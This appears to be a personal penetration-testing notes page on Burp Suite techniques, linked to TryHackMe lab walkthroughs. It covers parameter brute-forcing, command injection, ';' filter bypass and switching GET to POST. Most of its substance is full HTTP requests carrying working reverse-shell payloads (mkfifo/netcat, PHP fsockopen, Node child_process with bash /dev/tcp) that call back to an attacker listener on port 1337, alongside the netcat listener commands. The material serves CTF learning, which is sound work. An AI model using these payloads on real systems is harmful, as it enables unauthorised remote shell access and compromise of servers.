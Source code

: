 # Burp



## Find Parameters

Try using burp suite intruder to brute force to find other parameters&#x20;





## Command Injection

**Examples**

[hacker-vs.-hacker.md](../../walkthroughs/tryhackme/hacker-vs.-hacker.md "mention")

Started using Burp while testing out payloads to url-encode payloads more easy.

**Kali**

```
nc lvnp 1337
```

Started using Burp while testing out payloads to url-encode payloads more easy.

**Burp**

```
GET /cvs/shell.pdf.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.9.104+1337+>/tmp/f HTTP/1.1
Host: 10.10.21.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Bypass Filters - ;

try adding ; and then a command.

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Change Request Type

**Examples**

[glitch.md](../../walkthroughs/tryhackme/glitch.md "mention")

Change the request from GET to POST and it gives an interesting message

<figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

Running the below shows it is vulnerable

<figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If it works try getting a shell

**Kali**

```
nc -lvnp
```

**Burp**

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/$KALI/1337+0>%261"') HTTP/1.1
Host: 10.10.22.153
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
```



<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

## Exploiting Vulnerable Password Reset Logic(OTP)

**Examples**

[#exploiting-vulnerable-password-reset-logic](enumeration-and-brute-force.md#exploiting-vulnerable-password-reset-logic "mention")

## Exploiting HTTP Basic Authentication

**Examples**

[#exploiting-http-basic-authentication](enumeration-and-brute-force.md#exploiting-http-basic-authentication "mention")

##




